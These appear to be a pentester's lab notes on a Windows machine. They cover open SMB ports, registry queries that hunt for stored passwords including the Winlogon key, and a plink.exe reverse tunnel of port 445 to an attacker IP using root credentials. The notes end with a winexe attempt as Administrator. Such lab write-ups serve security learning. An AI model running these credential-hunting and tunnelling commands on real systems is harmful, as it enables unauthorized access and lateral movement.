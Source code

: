 - We find tha**t `139` and `445` are open**
- Meaning `smb` service for sharing files
- Note:- **This port is open only internally, we see it open from external kali machine in nmap scan because this machine is broken now**
- ==If we have some credentials, we can login using `crackmapexec`, etc with **SMB mode**==

# Registry PrivEsc
---
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
![[Pasted image 20250413161756.png]]
![[Pasted image 20250413161817.png]]


# Port Forwarding Using Plink.exe
---
- **SSH backend client for putty**
- https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
- Transfer using `SimpleHTTPServer80`or `python3 -m http server`
- Download using `cerutil`
	- ![[Pasted image 20250413162216.png]]
- **On Kali**
---
- `sudo apt install ssh` => If not installed
- `sudo vi /etc/ssh/sshd_config`
	- Uncomment `PermitRootLogin`and `Yes`
		- ![[Pasted image 20250413162326.png]]
- `service ssh restart`

- **On Windows**
- ---
- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5`
	- `l`: user
	- `pw`: password
	- `R`: remote
- Keep hitting enter
	- ![[Pasted image 20250413162541.png]]


# WinEXE
---
- **Run commands on windows**
- Let's try same password for **Administrator**
- Bad Shell :(
- ![[Pasted image 20250413162741.png]]